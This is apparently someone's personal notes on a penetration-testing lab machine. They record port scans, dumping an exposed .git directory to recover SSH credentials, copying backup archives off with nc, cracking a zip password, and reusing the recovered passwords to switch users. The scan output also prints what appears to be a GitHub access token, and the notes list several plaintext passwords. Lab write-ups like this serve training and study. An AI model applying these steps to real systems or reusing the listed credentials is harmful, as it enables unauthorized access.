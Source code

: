 Linux ttl=61

# first thing

**whenever http or ssh or any service hangs, use -v with it and lower MTU**

```
sudo ifconfig tun0 mtu 1200
```

```
sudo ip l s dev tun0 mtu 1300
```

# rustscan

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

# nmap

```
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fb:ea:e1:18:2f:1d:7b:5e:75:96:5a:98:df:3d:17:e4 (ECDSA)
|_  256 66:f4:54:42:1f:25:16:d7:f3:eb:f7:44:9f:5a:1a:0b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-git: 
|   192.168.191.144:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: Security Update 
|     Remotes:
|_      https://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@github.com/PWK-Challenge-Lab/dev.git
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


# rabbit hole

![[Pasted image 20240611210448.png]]

![[Pasted image 20240611210427.png]]

This was rabbit hole as I would started with `/.git` so that's why I knew, it was initial


# initial

nmap showed that we have access to `/.git`

![[Pasted image 20240611210611.png]]

checked everything manually and made `creds` file but then I remembered that we need to use git-dumper for this type of scenes

```
pip install git-dumper
```

```
python3 git_dumper.py http://192.168.191.144/.git data
```

OR

```
git-dumper http://192.168.191.144/.git .
```

Then just look at logs of git commit and look at HEAD

```
git log

git show HEAD
```

![[Pasted image 20240611211123.png]]

Got ssh as stuart

# priv esc

checked `/opt` and got 3 backup.zip

transferred it to my kali with `nc` method

first 2 of them was corrupted

used `zip2john` and got pass of it `codeblue`

![[Pasted image 20240611211405.png]]

![[Pasted image 20240611211422.png]]

suggesting that I need to use `7z`

```
7z x sitebackup3.zip
```

![[Pasted image 20240611211511.png]]

looked at those files and got 3 passwords

```
Ee24zIK4cDhJHL4H
Password@1
BreakingBad92
```

and we already know that there's 4 total users

```
carla
chloe
thato
stuart
```

did `su chloe`
one of password worked

![[Pasted image 20240611211652.png]]

